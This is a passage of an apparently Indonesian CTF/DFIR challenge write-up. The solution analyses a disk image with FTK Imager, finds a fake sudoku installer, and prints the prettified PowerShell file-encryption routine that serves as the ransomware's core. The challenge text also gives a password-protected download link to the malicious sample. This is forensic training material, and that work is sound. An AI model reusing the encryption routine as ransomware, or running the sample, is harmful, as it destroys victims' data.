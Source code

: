 Note : Dont execute the malicious file on your computer!

Note : Remember you are a DFIR Consultant, not a malware consultant who focus to analyze the ransomware file!

you can download the file you need in here : https://mega.nz/file/Ln53ARjT#ZUwOX1WBfTsRjgjsYgsHB5xr6d4pGNpVPr8N3kl6WhI

Password : 1nip4ssw0rdny4

### Solution
Diberikan sebuah file `.ad1` dan kami melakukan analisa file tersebut menggunakan FTK Imager.
Pada folder Downloads ditemukan sebuah file exe yang bernama `sudoku_new_installer_2024.exe`. Kami melakukan analisa sederhana pada file tersebut menggunakan command `strings` dan menemukan sebuah script powershell. Berikut adalah script yang telah kami prettify.

```powershell
# Function to encrypt a file using AES
function Encrypt-File {
    param (
        [string]$D783C0,  # Path of the file to encrypt
        [string]$EC38E1,  # Path where the encrypted file will be saved
        [string]$6766A9,  # Encryption key
        [string]$92EE28   # Initialization vector (IV)
    )

    # Convert the key and IV from strings to byte arrays
    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    # Validate key and IV lengths
    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR: Key length must be 16, 24, or 32 bytes."
    }

    if ($68263A.Length -ne 16) {
        throw "ERROR: IV length must be 16 bytes."
    }

    # Create an AES encryption object
    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    # Read the file to encrypt
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    # Encrypt the file
    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length)

    # Combine IV with the encrypted data
    [byte[]]$C81F44 = $88DB2B.IV + $42B0F0

    # Dispose of the AES object
    $88DB2B.Dispose()

    # Output the path of the encrypted file
    Write-Output $EC38E1

    # Write the encrypted data to the specified file
    [System.IO.File]::WriteAllBytes($EC38E1, $C81F44)
    Write-Output "done"
```